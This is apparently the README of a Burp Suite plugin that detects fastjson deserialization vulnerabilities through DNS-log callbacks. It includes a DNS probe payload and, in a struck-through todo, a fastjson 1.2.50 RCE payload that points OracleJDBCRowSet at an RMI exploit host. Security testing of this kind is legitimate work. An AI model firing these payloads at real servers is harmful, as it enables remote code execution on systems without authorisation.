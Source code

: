 # fastjsondnslog_use
#### Burp 插件 探测fastjson

用dnslog来进行探测，使用到的payload为：{"@type":"java.net.Inet4Address","val":"x.dnslog.cn"}   (全版本支持 fastjson <= 1.2.72)

![Image text](https://github.com/f0ng/fastjsondnslog/blob/master/1.png)

#### 马赛克处为靶机host
### 1.可以看到哪个域名的，当请求数量多了，网络延迟，会造成A请求与B请求混淆，这样在请求的dnslog加上host可以起到唯一标识作用
### 2.可以看到请求的方法、路径
### 3.识别Content-Type类型为json才会发送请求，并不是所有请求都会发送该请求，且做到了三个请求探测

# fastjsondnslogvul1.0
#### Burp 插件 探测fastjson反序列化漏洞

用dnslog来进行探测是否有fastjson反序列化漏洞，所以需要和dnslog相通

### 1.可以看到哪个域名的，当请求数量多了，网络延迟，会造成A请求与B请求混淆，这样在请求的dnslog加上host可以起到唯一标识作用
### 2.可以看到请求的方法、路径，方便查找
### 3.~~识别Content-Type类型为json才会发送请求，并不是所有请求都会发送该请求，且做到了三个请求探测~~ 发现一些站点，如国内几个src，把json请求放在get里面的，这样就探测不到了，所以进行了改进，可以识别出来get请求里的{}格式，包括url编码的，亲测用本工具挖过两家src fastjson rce，5000R左右
### 4.不会冗余，做到请求去重，单个请求只会探测一次，其他burp的fastjson工具可能看到请求都会去探测

# todo
高版本的payload没有加进来，只针对于1.2.24和1.2.47两个payload
~~## 1.2.50 payload
{"@type":"java.lang.AutoCloseable","@type":"oracle.jdbc.rowset.OracleJDBCRowSet","dataSourceName":"rmi://x.x.x.x:4444/Exploit","command":"a"}~~
